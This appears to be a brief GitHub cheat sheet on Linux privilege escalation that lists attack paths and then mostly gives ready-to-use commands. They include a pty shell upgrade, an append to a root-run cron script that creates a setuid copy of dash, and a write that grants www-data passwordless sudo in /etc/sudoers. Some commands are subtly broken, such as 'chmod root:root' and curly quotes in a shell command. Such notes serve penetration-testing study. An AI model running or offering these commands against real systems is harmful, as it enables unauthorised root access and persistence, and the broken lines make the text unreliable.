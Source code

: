 Linux Privilege escalation
==========================

A typical Linux privilege escalation method is based on one of the following:

Exploiting services running as root
Exploiting SUID executables
Exploiting SUDO rights/user
Exploiting badly configured cron jobs
Exploiting users with "." in their path
Kernel Exploits


***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:


**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

**5. Command to writable directories in the restrictive shell**

find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;

